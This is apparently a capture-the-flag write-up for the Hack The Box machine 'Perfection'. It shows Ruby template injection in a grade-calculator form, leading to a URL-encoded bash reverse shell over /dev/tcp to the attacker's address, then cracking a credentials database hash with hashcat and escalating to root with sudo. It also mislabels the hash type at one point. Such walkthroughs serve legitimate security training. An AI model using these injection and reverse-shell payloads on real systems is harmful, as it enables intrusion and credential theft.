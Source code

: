 ```yaml
---
title: "Perfection from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Perfection from HTB
[page](https://app.hackthebox.com/machines/Perfection)
`Nmap`gave this:
```bash
$ nmap -sCV --min-rate 4000 10.10.11.253
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 17:20 +04
Nmap scan report for 10.10.11.253
Host is up (0.29s latency).
Not shown: 931 filtered tcp ports (no-response), 67 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing unusual.
Access the site and then go to `Calculate your weighted grade`. We have to modify something with `BurpSuite`.
Turn on `BurpSuite`and `Intercept`. Go to the site and submit it:
![](/assets//images/Screenshot from 2024-08-07 17-25-48.png]]
Submit it and try to modify it with `Intercept`:
```

category1= <%25%2d+%22>1&grade1=20&weight1=20&category2=2&grade2=20&weight2=20&category3=3&grade3=20&weight3=20&category4=4&grade4=20&weight4=20&category5=5&grade5=20&weight5=20
```
`<%25%2d+%22>`i added this and site displayed this : ![](/assets/images/Screenshot from 2024-08-07 17-35-42.png)
So we can add some codes to mess with it.
For first try send it to `Repeater`, use this command and `url encode`it with `burpsuite`.
```
<%= IO.popen("sleep 10").readlines() %>1 # url encode it with CTRL+u
<%25%3d+IO.popen("sleep+10").readlines()+%25>1
```
`note that 1 is category name and don't need encoding.`
This code should make site sleep for 10 seconds. If request is delayed for 10 seconds that means this code worked.
As expected it returned after 10 seconds.
Now we need `reverse shell`to access the machine. we'll use this code:
```
<%= IO.popen("bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'").readlines() %> # url encode it
<%25%3d+IO.popen("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/1234+0>%261'").readlines()+%25>
```
It should look like this:
```
category1=<%25%3d+IO.popen("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/1234+0>%261'").readlines()+%25>1
```
Open port with `NetCat`and wait for the connection after clicking `send`.
```bash
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.253] 40564
sh: 0: can't access tty; job control turned off
$ ls
main.rb
public
views
$ script /dev/null -c bash
Script started, output log file is '/dev/null'. # to get shell
$ cat /home/susan/user.txt
7e3540188bf162aefb968d344a6bad4d
```
***
User Flag is : 7e3540188bf162aefb968d344a6bad4d
***
Check for `mail`in `/var/mail`directory and read it.
```bash
$ cat susan
cat susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
Our user is `susan`and according to mail our password should start with `susan_nasus`and some number.
When you type `id`in terminal you see this:
```
susan@perfection:~$ id uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```
We see that the user `susan` is in the `sudo`group. Since `sudo` requires a password, we need to find the password for the `susan` user. Go to `/home/susan`and you can find file named `Migration`:
```bash
susan@perfection: cd Migration/
susan@perfection:~/Migration$ ls
pupilpath_credentials.db
susan@perfection:~/Migration$ file pupilpath_credentials.db
pupilpath_credentials.db: SQLite 3.x database
sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```
Save this hash `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`and with `hash-identifier`identify hash type. It is `sha-512`.
password should start with `susan_nasus_` save that to file `e.g. help`
save hash to file `e.g. hash`
and run the command:
```
hashcat -m 1400 -a 6 hash help ?d?d?d?d?d?d?d?d?d -O
```
###### -m 1400 : Specifies the hash type, in this case, SHA-256.
###### -a 6 : Specifies the attack mode, in this case, a combinator attack where each candidate in the keyspace is appended to each word in the wordlist.
###### hash : The file containing the hash to be cracked.
###### help : The wordlist file containing the prefix susan_nasus_ .
###### ?d?d?d?d?d?d?d?d?d : The mask representing all combinations of 9 digits.
###### -O : Optimized kernel (useful for speed but may have restrictions).

And the cracked password is: `susan_nasus_413759210`
After that become the root:
```bash
$ sudo -i
sudo -i
[sudo] password for susan: susan_nasus_413759210

root@perfection:~# cat root.txt
cat root.txt
854f91d2002cf7e31b4df4359c70a336
```
***
Root Flag is: 854f91d2002cf7e31b4df4359c70a336
***
![](/assets/images/Screenshot from 2024-08-07 16-48-05.png)
